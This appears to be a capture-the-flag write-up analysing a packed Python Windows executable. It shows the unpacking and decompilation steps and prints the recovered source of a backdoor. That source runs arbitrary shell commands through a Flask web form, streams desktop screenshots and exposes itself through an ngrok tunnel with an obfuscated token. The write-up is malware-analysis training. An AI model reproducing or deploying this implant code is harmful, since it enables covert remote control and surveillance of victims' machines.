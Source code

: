 # ✅ MALWARE - Snake Oil

Writeup by: [@goproslowyo](https://github.com/goproslowyo)

## Tags

- medium

Files:

- [snake-oil](./snake-oil)

## Description

Author: @JohnHammond

One of our workstations was exhibiting strange network communications... we found this binary that looked to be the culprit. Can you find anything suspicious?  Download the file(s) below.

## Writeup

A quick check of the file shows it's a binary executable and further inspect reveals it's a packed python3.9 pyinstaller executable.

```shell
$ file snake-oil
snake-oil: PE32+ executable (console) x86-64, for MS Windows, 7 sections
$ strings snake-oil|grep pyt
IP%7pytp
pytweening)
bpython39.dll
'python39.dll
```

Let's pull the executable apart and then decompile the main compiled python pyc file.

```shell
# Get pyinstxtractor to pull python code out of pyinstaller executable
$ git clone https://github.com/extremecoders-re/pyinstxtractor
[...]
$ cd pyinstxtractor
$ python pyinstxtractor.py ../snake-oil
[...]
$ cd pyinstxtractor/snake-oil_extracted
# Get pycdc to decompile pyc files
$ git clone https://github.com/zrax/pycdc.git
$ cd pycdc
$ cmake CMakeLists.txt
$ make
$ make install
$ pycdc brain-melt.pyc;
# Source Generated with Decompyle++
# File: brain-melt.pyc (Python 3.9)
[...]
```

We get a decompiled python source code file. It has a tiny tiny mistake that we'll correct in a minute:

{% raw %}
```python
# Source Generated with Decompyle++
# File: brain-melt.pyc (Python 3.9)

from flask import Flask, flash, request, render_template_string, send_file, redirect
from wtforms import Form, TextField, validators, StringField, SubmitField
import subprocess
import pyautogui
import io
import sys
from PIL import Image
from pyngrok import ngrok
import base64
DEBUG = True
app = Flask(__name__)
app.config['SECRET_KEY'] = '9EQrXQ88pwP7UWaXbkmThhKuDdYxsad1'

def decrypt(s1, s2):
    return ''.join((lambda .0: [ chr(ord(c1) ^ ord(c2)) for c1, c2 in .0 ])(zip(s1, s2)))


def deobfuscate():
    part1 = '2ec7627d{galf'[::-1]
    part2 = str(base64.b64decode('NjIwM2I1Y2M2OWY0'.encode('ascii')), 'UTF8')
    part3 = decrypt('\x17*\x07`BC\x14*R@\x14^*', 'uKeVuzwIexplW')
    key = part1 + part2 + part3
    return key


def ngrok_tunnel():
    ngrok.set_auth_token(deobfuscate())
    http_tunnel = ngrok.connect(5000, 'http', '-log=stdout > NUL')


def Desktop(pil_img):
    img_io = io.BytesIO()
    pil_img.save(img_io, 'JPEG', 70, **('quality',))
    img_io.seek(0)
    return send_file(img_io, 'image/jpeg', **('mimetype',))


def execute(cmd):
    child = subprocess.Popen(cmd, True, subprocess.PIPE, subprocess.PIPE, **('shell', 'stdout', 'stderr'))
    for line in child.stdout:
        print(line)
        l = line.decode('utf-8', 'ignore', **('encoding', 'errors'))
        flash(l)
    for line in child.stderr:
        l = line.decode('utf-8', 'ignore', **('encoding', 'errors'))
        flash(l)


class CommandForm(Form):
    command = TextField('Command:', [
        validators.required()], **('validators',))

    def display():
        form = CommandForm(request.form)
        print(form.errors)
        if request.method == 'POST':
            command = request.form['command']
        if form.validate() and request.method == 'POST':
            result = execute(command)
            flash(result)
        else:
            flash('Please enter a command.')
        return render_template_string('<!doctype html>\n                <html>\n                    <head>\n                        <link rel="stylesheet" href="css url"/>\n                            </head>\n                                <body>\n                                    <form action="" method="post" role="form">\n                                        <div class="form-group">\n                                              <label for="Command">Command:</label>\n                                              <input type="text" class="form-control" id="command" name="command"></div>\n                                              <button type="submit" class="btn btn-success">Submit</button>\n                                              </form>\n                                            {% for message in get_flashed_messages() %}\n                                            <p>{{ message }}</p>\n                                            {% endfor %}\n                                            <img src="/images/desktop.jpg" id="img" width="100%" scrolling="yes" style="height: 100vh;"></iframe>\n                                </body>\n                            \n                            {% block javascript %}\n                            <script type="text/javascript">\n                            window.onload = function() {\n                                var image = document.getElementById("img");\n\n                                function updateImage() {\n                                    image.src = image.src.split("?")[0] + "?" + new Date().getTime();\n                                }\n\n                                setInterval(updateImage, 1000);\n                            }\n                            </script>\n                            {% endblock %}\n                            </html>\n                        ', form, **('form',))

    display = app.route('/', [
        'GET',
        'POST'], **('methods',))(display)


def serve_img():
    screenshot = pyautogui.screenshot()
    return Desktop(screenshot)

serve_img = app.route('/images/desktop.jpg')(serve_img)
# WARNING: Decompyle incomplete
```
{% endraw %}

From here I started to focus on the decrypt and deobfuscate functions. There is a small error in the decompilation that we need to fix. `.0` just needs to be any other variable place holder. Make it `x`, `i`, `c`, whatever, just fix it.

```python
def decrypt(s1, s2):
    return ''.join((lambda .0: [ chr(ord(c1) ^ ord(c2)) for c1, c2 in .0 ])(zip(s1, s2)))


def deobfuscate():
    part1 = '2ec7627d{galf'[::-1]
    part2 = str(base64.b64decode('NjIwM2I1Y2M2OWY0'.encode('ascii')), 'UTF8')
    part3 = decrypt('\x17*\x07`BC\x14*R@\x14^*', 'uKeVuzwIexplW')
    key = part1 + part2 + part3
    return key
```

Then run the code in an interpreter to get the flag you earned:

![Get the flag](./flag.png)

```python
$ ipython
def deobfuscate():
    part1 = '2ec7627d{galf'[::-1]
    import base64
    part2 = str(base64.b64decode('NjIwM2I1Y2M2OWY0'.encode('ascii')), 'UTF8')
    del(base64)
    part3 = decrypt('\x17*\x07`BC\x14*R@\x14^*', 'uKeVuzwIexplW')
    key = part1 + part2 + part3
    return key


def decrypt(s1, s2):
    return ''.join((lambda x: [chr(ord(c1) ^ ord(c2)) for c1, c2 in x]) (zip(s1, s2)))


print(deobfuscate())
flag{d7267ce26203b5cc69f4bab679cc78d2}
```
